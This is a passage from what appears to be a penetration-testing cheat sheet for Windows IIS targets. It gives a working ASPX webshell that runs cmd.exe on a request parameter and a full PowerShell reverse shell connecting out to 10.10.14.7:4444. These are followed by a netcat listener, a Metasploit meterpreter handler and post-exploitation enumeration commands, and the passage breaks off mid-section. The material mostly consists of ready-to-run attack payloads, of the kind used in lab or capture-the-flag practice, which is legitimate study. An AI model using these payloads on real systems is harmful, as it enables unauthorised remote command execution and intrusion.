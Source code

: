 -   **ASPX Webshell**

    `<%@ Page Language="C#" %> <% Response.Write(System.Diagnostics.Process.Start("cmd.exe","/c " + Request["cmd"])); %>`

-   **Reverse Shell (PowerShell)**

    `powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.7',4444);$stream = $client.GetStream();[byte[]]$bytes=0..65535|%{0};while(($i=$stream.Read($bytes,0,$bytes.Length))-ne 0){$data=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback=(iex $data 2>&1|Out-String );$sendback2=$sendback+'PS '+(pwd).Path+'> ';$sendbyte=([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}"`

_Why:_ First code execution is usually as low-priv user (IUSR, IIS APPPOOL, etc.).

* * *

## 3\. Shell & Stabilization

### 3.1 Reverse Shell Catcher

`rlwrap nc -lvnp 4444`

### 3.2 Upgrade to Meterpreter (optional)

`use exploit/multi/handler set payload windows/x64/meterpreter/reverse_tcp`

### 3.3 Basic Enumeration

`whoami whoami /priv systeminfo`

_Why:_ Confirms your privilege level and system details.

* * *

## 4\. Enumeration (Post-Exploitation)

### 4.1 System Information

`systeminfo wmic qfe get Caption,Description,HotFixID,InstalledOn`

_Why:_ Check patch level, missing hotfixes = kernel exploits.

### 4.2 Users & Groups

`net user net localgroup net localgroup administrators`

_Why:_ Identify escalation targets.

### 4.3 Network Info

`ipconfig /all route print netstat -ano`

_Why:_ May reveal pivot points.

### 4.4 Running Processes
